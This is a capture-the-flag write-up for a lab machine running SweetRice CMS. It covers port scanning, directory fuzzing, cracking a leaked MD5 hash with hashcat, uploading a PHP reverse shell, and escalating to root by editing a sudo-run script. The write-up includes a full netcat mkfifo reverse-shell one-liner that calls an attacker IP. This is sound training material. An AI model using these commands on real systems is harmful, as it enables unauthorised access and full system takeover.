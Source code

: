 initial Network Enumeration
```shell
nmap -sS 10.10.126.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-29 22:03 IST
Nmap scan report for 10.10.126.245
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.60 seconds
```

only 2 ports active
- ssh
- http

now as we dont have anything to do we can do a directory bursting on the http for any usefull endpoint as the default page is on / 
using ffuf now
```shell
ffuf -u http://10.10.126.245/FUZZ -w /usr/share/wordlists/dirb/big.txt
```
we got some of the endpoints
/content
got the main page but nothing much
lets ffuf it again for further directories
```shell
ffuf -u http://10.10.126.245/content/FUZZ -w /usr/share/wordlists/dirb/big.txt
```
got some more endpoints
- /as
- /attachment
- /inc
lets analyze each one of it
/as has a login page of sweet rice CMS
/inc has the page files like 404.php and others, but there is one special file it may contain the sql db or something so we saw that and after converting it to readable format
 we got the admin username is "manager"
 we also got a paswor but it is hashed, we can use hashcat or online tool like crackstation to crack it easily
 i have used hashcat 
 ```shell
 hashcat --show password
```
```shell
hashcat -m 0 password /usr/share/wordlists/rockyou.txt
```
and boom we got the password for the CMS
```shell
42f749ade7f9e195bf475f37a44cafcb:Password123
```
and now we can use these creds to sign in into the CMS
now as we have username and password, i searched for an exploit of "Arbitary File Upload"
but unfortunatly it did'nt work, the file was being uploaded but not accesible
analyzed the CMS for any other file upload input and got one at Database import
as the /inc endpoint was present and there we had the sql backup present i thought the uploaded file can be accessed there
uploaded the gold rev shell by pentest monkey and it was uploaded successfully
started a nc listener
```shell
nc -nvlp 1234
```
now as we see the sql backup folder there we got the rev shell file
clicked it and the shell was executed
an we got in as user and also got the user.txt
```shell
sudo -l
```
this shows us that what the user can do without password
```shell
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
we can use the backup.pl file as it runs a copy.sh script which is present in /etc/copy.sh and we have access to it
we can use it to execute the command we need
```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.12.148 4445 >/tmp/f" > copy.sh
```
also we need to turn on one more nc listener on port 4445
now we can execute the backup.pl so the script gets executed and we get a privilaged shell at netcat listener
```shell
sudo /usr/bin/perl /home/itguy/backup.pl
```
boom we got root shell in our listener and we also got the root.txt
we have successfully completed the CTF 

